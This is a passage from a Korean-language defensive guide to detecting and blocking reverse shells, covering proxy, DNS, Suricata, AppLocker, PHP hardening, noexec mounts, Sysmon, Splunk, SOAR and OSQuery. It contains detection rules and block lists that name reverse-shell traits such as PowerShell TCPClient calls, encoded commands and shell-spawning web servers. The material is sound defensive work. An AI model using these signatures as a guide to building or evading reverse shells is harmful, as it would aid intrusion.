http_port 3128 ssl-bump cert=/etc/squid/ssl/proxy.crt key=/etc/squid/ssl/proxy.key

ssl_bump peek all
ssl_bump bump all

# 차단할 도메인 카테고리 (C2 서버, 익명화 프록시 등)
acl blocked_domains dstdomain "/etc/squid/blocked_domains.txt"
http_access deny blocked_domains

# 허용된 사용자만 프록시 사용 가능
auth_param basic program /usr/lib/squid/basic_ncsa_auth /etc/squid/passwd
acl authenticated_users proxy_auth REQUIRED
http_access allow authenticated_users

# 로깅
access_log /var/log/squid/access.log squid
```

**3. DNS 쿼리 모니터링 및 필터링**

내부 DNS 서버 로그를 분석하여 비정상적인 쿼리 패턴을 탐지하고, 알려진 악성 도메인(C2 서버, DGA 도메인)을 차단한다.

BIND DNS 서버 로깅 설정:

```bind
# /etc/bind/named.conf.options
logging {
    channel query_log {
        file "/var/log/bind/query.log" versions 5 size 50m;
        severity info;
        print-time yes;
        print-category yes;
    };
    category queries { query_log; };
};
```

Pi-hole 또는 pfSense의 DNS 필터링 기능을 활용하여 Threat Intelligence 피드를 통합하고, 자동으로 악성 도메인을 차단할 수 있다.

**4. 이상 트래픽 패턴 탐지**

Zeek(구 Bro), Suricata, Snort 등 네트워크 IDS를 배치하여 다음과 같은 리버스 쉘 특징적인 패턴을 탐지한다.

Suricata 규칙 예시:

```suricata
# 비표준 포트로의 지속 연결
alert tcp $HOME_NET any -> $EXTERNAL_NET ![80,443,53,22] \
    (msg:"Potential Reverse Shell - Persistent connection to non-standard port"; \
    flow:to_server,established; \
    threshold:type limit, track by_src, count 1, seconds 300; \
    classtype:shellcode-detect; \
    sid:1000001; rev:1;)

# 짧은 간격의 반복 연결 (비콘)
alert tcp $HOME_NET any -> $EXTERNAL_NET any \
    (msg:"Beaconing Activity Detected"; \
    flow:to_server,established; \
    threshold:type both, track by_src, count 10, seconds 60; \
    classtype:trojan-activity; \
    sid:1000002; rev:1;)

# Base64 인코딩된 PowerShell 명령어 감지
alert tcp $HOME_NET any -> $EXTERNAL_NET any \
    (msg:"Base64 Encoded PowerShell Command"; \
    flow:to_server,established; \
    content:"powershell"; nocase; \
    content:"-enc"; distance:0; within:20; nocase; \
    classtype:shellcode-detect; \
    sid:1000003; rev:1;)
```

### 호스트 레벨 방어 (Host-Level Defenses)

호스트 레벨 방어는 침해가 발생한 후에도 리버스 쉘의 실행과 지속성을 차단하여 피해를 최소화하는 최종 방어선이다.

**1. 애플리케이션 실행 제어 (Application Whitelisting)**

AppLocker(Windows), SELinux/AppArmor(Linux), gatekeeper(macOS) 등을 활용하여 승인된 애플리케이션만 실행되도록 제한한다.

Windows AppLocker 정책 예시:

```powershell
# PowerShell 스크립트 실행 제한
New-AppLockerPolicy -RuleType Publisher -Path * -User Everyone -Action Deny \
    -PublisherCondition "O=Microsoft Corporation, L=Redmond, S=Washington, C=US" \
    -ProductName "Windows PowerShell" \
    -BinaryVersionRange "10.0.0.0-10.9.9.9"

# 특정 디렉토리의 실행 파일만 허용
New-AppLockerPolicy -RuleType Path -Path "C:\Program Files\*" -User Everyone -Action Allow
New-AppLockerPolicy -RuleType Path -Path "C:\Windows\*" -User Everyone -Action Allow
```

**2. 스크립트 인터프리터 하드닝**

PHP, Python, Ruby 등 스크립트 언어의 위험한 함수를 비활성화한다.

PHP 설정 (/etc/php/8.1/apache2/php.ini):

```ini
; 위험한 함수 비활성화
disable_functions = system,exec,shell_exec,passthru,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,eval,assert,create_function

; open_basedir 제한 (웹 루트 외부 접근 차단)
open_basedir = /var/www/html:/tmp

; 파일 업로드 제한
file_uploads = Off
upload_max_filesize = 2M
```

**3. 임시 디렉토리 실행 방지**

`/tmp`, `/var/tmp`, `/dev/shm` 등 공격자가 악성 파일을 저장하는 디렉토리에 `noexec` 마운트 옵션을 적용한다.

```bash
# /etc/fstab 설정
tmpfs /tmp tmpfs defaults,noexec,nosuid,nodev 0 0
tmpfs /var/tmp tmpfs defaults,noexec,nosuid,nodev 0 0
tmpfs /dev/shm tmpfs defaults,noexec,nosuid,nodev 0 0

# 즉시 재마운트
mount -o remount,noexec,nosuid,nodev /tmp
mount -o remount,noexec,nosuid,nodev /var/tmp
mount -o remount,noexec,nosuid,nodev /dev/shm
```

**4. EDR 솔루션 배치 (Endpoint Detection and Response)**

CrowdStrike Falcon, Microsoft Defender for Endpoint, SentinelOne, Carbon Black 등 EDR 솔루션은 다음과 같은 행위 기반 탐지를 수행한다.

탐지 가능한 행위 패턴:
- 웹 서버 프로세스(apache2, nginx, php-fpm)가 쉘(/bin/bash, /bin/sh)을 생성하는 경우
- 쉘 프로세스가 네트워크 소켓을 생성하고 외부 IP로 연결하는 경우
- 사용자 로그인 없이 생성된 대화형 쉘 세션
- Python, PowerShell이 Base64 인코딩된 명령어를 실행하는 경우
- 프로세스가 자신의 표준 입출력을 소켓으로 리다이렉트하는 경우 (dup2 시스템 콜)

Sysmon(Windows)을 활용한 탐지 규칙 예시:

```xml
<Sysmon schemaversion="4.81">
  <EventFiltering>
    <!-- Process Creation with Network Connection -->
    <RuleGroup name="Reverse Shell Detection" groupRelation="or">
      <ProcessCreate onmatch="include">
        <!-- PowerShell with network arguments -->
        <Rule name="PowerShell Network Connection" groupRelation="and">
          <Image condition="end with">powershell.exe</Image>
          <CommandLine condition="contains any">Net.Sockets;TCPClient;GetStream</CommandLine>
        </Rule>

        <!-- cmd.exe spawned by web server -->
        <Rule name="Web Server Spawning Shell" groupRelation="and">
          <Image condition="end with">cmd.exe</Image>
          <ParentImage condition="contains any">w3wp.exe;httpd.exe;nginx.exe;php-cgi.exe</ParentImage>
        </Rule>
      </ProcessCreate>

      <!-- Network Connection by Shell Process -->
      <NetworkConnect onmatch="include">
        <Image condition="end with">cmd.exe</Image>
        <Image condition="end with">powershell.exe</Image>
        <Image condition="end with">bash</Image>
        <Image condition="end with">sh</Image>
      </NetworkConnect>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
```

### 탐지 및 대응 (Detection and Response)

**1. 중앙집중식 로깅 및 SIEM 통합**

모든 시스템의 로그(방화벽, IDS, 프록시, DNS, 엔드포인트)를 중앙 SIEM(Splunk, ELK, QRadar)으로 수집하여 상관 분석을 수행한다.

Splunk 상관 분석 쿼리 예시:

```spl
# 동일 소스 IP의 다수 목적지 연결 시도 (스캐닝)
index=firewall action=allowed direction=outbound
| stats dc(dest_ip) as unique_destinations by src_ip
| where unique_destinations > 50
| table src_ip unique_destinations

# 웹 서버에서 쉘 프로세스 생성
index=windows EventCode=4688
(ParentProcessName="*w3wp.exe" OR ParentProcessName="*httpd.exe")
(ProcessName="*cmd.exe" OR ProcessName="*powershell.exe")
| table _time ComputerName User ProcessName ParentProcessName CommandLine

# 비업무 시간 외부 연결
index=network earliest=-1h latest=now
| eval hour=strftime(_time, "%H")
| where (hour < 8 OR hour > 18) AND action="allowed" AND direction="outbound"
| stats count by src_ip dest_ip dest_port
| where count > 10
```

**2. 자동화된 사고 대응 (Automated Incident Response)**

SOAR(Security Orchestration, Automation, and Response) 플랫폼(Palo Alto Cortex XSOAR, Splunk Phantom, IBM Resilient)을 활용하여 탐지된 리버스 쉘 활동에 자동으로 대응한다.

자동화 워크플로우:
1. 리버스 쉘 탐지 알림 수신
2. 해당 호스트를 격리 VLAN으로 자동 이동
3. 엔드포인트에서 프로세스 트리 및 네트워크 연결 정보 수집
4. 메모리 덤프 및 디스크 이미지 생성
5. C2 IP를 방화벽 블랙리스트에 자동 추가
6. 보안팀에 상세 사고 보고서 전송
7. 티켓 시스템(Jira, ServiceNow)에 사고 티켓 자동 생성

**3. 위협 헌팅 (Threat Hunting)**

능동적인 위협 헌팅을 통해 아직 탐지되지 않은 리버스 쉘 활동을 발견한다.

헌팅 쿼리 예시 (OSQuery):

```sql
-- 비정상적인 쉘 프로세스의 네트워크 연결
SELECT
    p.pid,
    p.name,
    p.path,
    p.cmdline,
    p.parent,
    ps.remote_address,
    ps.remote_port,
    ps.local_port
FROM
    processes p
JOIN
    process_open_sockets ps ON p.pid = ps.pid
WHERE
    (p.name LIKE '%bash%' OR p.name LIKE '%sh%' OR p.name LIKE '%cmd.exe%' OR p.name LIKE '%powershell.exe%')
    AND ps.remote_address != '127.0.0.1'
    AND ps.remote_address != '::1';

-- 웹 서버 프로세스의 자식 프로세스 확인
SELECT
    p1.name AS parent_name,
    p1.pid AS parent_pid,
    p2.name AS child_name,
    p2.pid AS child_pid,
    p2.cmdline AS child_cmdline
FROM
    processes p1
JOIN
    processes p2 ON p1.pid = p2.parent
WHERE
    p1.name IN ('apache2', 'httpd', 'nginx', 'w3wp.exe', 'php-fpm')
    AND p2.name IN ('bash', 'sh', 'cmd.exe', 'powershell.exe', 'python', 'perl');
```

## 결론 및 권고사항

리버스 쉘은 방화벽과 NAT 환경을 우회하는 효과적인 공격 기법으로, 초기 침투(Initial Access)에 성공한 공격자가 피해 시스템에 대한 지속적인 원격 접근을 확보하는 핵심 수단이며, 단순한 Bash 원라이너부터 암호화된 멀티스테이지 페이로드, HTTP/DNS 터널링, 시간 기반 회피 기법에 이르기까지 다양한 구현 방법과 탐지 회피 전략이 존재한다.

효과적인 방어를 위해서는 네트워크 경계 통제(이그레스 필터링, 프록시 강제, DNS 모니터링), 호스트 기반 보호(애플리케이션 화이트리스트, 스크립트 하드닝, noexec 마운트), 행위 기반 탐지(EDR, Sysmon, OSQuery), 중앙집중식 로깅 및 상관 분석(SIEM), 자동화된 사고 대응(SOAR)을 통합한 다층 방어 전략이 필수적이며, 특히 아웃바운드 트래픽에 대한 제로 트러스트(Zero Trust) 접근 방식을 적용하여 기본적으로 모든 연결을 차단하고 명시적으로 승인된 통신만 허용하는 정책이 리버스 쉘 공격의 성공률을 크게 낮출 수 있다.

보안팀은 정기적인 침투 테스트와 레드팀 훈련을 통해 조직의 탐지 및 대응 능력을 검증하고, 최신 공격 기법과 탐지 회피 전략에 대한 지속적인 교육과 훈련을 수행하여 진화하는 위협 환경에 대응할 수 있는 역량을 강화해야 하며, 모든 보안 통제는 정기적으로 검토하고 업데이트하여 새로운 취약점과 공격 벡터에 대한 방어력을 유지해야 한다.
